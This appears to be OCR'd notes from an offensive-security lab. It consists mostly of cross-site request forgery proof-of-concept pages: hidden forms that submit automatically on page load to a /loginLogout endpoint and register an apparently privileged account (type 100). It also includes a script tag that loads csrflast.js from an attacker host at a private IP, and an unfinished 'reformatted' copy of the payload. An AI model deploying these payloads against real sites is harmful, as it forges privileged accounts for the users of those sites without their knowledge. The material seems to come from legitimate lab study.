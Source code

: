 ```js
  <form action="/loginLogout" method="POST" accept-charset="UTF-8" name="csrf" enctype="multipart/form-data" style="display:none;">
    <input type="hidden" name="_token" value="jr99Nn6ggdZgxtbSs89dxS2Vsn6Z9Nbxrb3sbph9">
    <input type="hidden" name="username" value="bugstwo">
    <input type="hidden" name="password" value="bugstwo">
    <input type="hidden" name="firstName" value="bugstwo">
    <input type="hidden" name="lastName" value="bugstwo">
    <input type="hidden" name="email" value="bugstwo@local.com">
    <input type="hidden" name="dtype" value="isRegister">
    <input type="hidden" name="type" value="100">
  </form>
</body>
</html>
```


`<script src="http://192.168.45.155:8000/csrflast.js"></script>`
```js
<html>
<body onload="document.forms['pwn'].submit()">
<form method="POST" action="/loginLogout" accept-charset="UTF-8" name="pwn" enctype="multipart/form-data">
  <input type="hidden" name="_token" value="jr99Nn6ggdZgxtbSs89dxS2Vsn6Z9Nbxrb3sbph9"/>
  <input type="hidden" name="username" value="offsec"/>
  <input type="hidden" name="password" value="offsec"/>
  <input type="hidden" name="firstName" value="offsec"/>
  <input type="hidden" name="lastName" value="offsec"/>
  <input type="hidden" name="email" value="offsec@offsectest.local"/>
  <input type="hidden" name="type" value="100"/>
  <input type="hidden" name="dType" value="isRegister"/>
</form>
</body>
</html>
```


reformat properly

```js
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>CSRF PoC</title>
  <script>
    // Automatically submit the form when the page loads
    function submitForm() {
      document.forms['csrf'].submit();
    }
  </script>
</head>
<body onload="submitForm();">
  
  <form 
    action="/loginLogout" 
    method="POST" 
    accept-charset="UTF-8" 
    name="csrf" 
    enctype="multipart/form-data" 
    style="display: none;">
    
    <!-- Hidden input fields -->
    <input type="hidden" name="_token" value="jr99Nn6ggdZgxtbSs89dxS2Vsn6Z9Nbxrb3sbph9">
    <input type="hidden" name="username" value="bugstwo">
    <input type="hidden" name="password" value="bugstwo">
    <input type="hidden" name="firstName" value="bugstwo">
```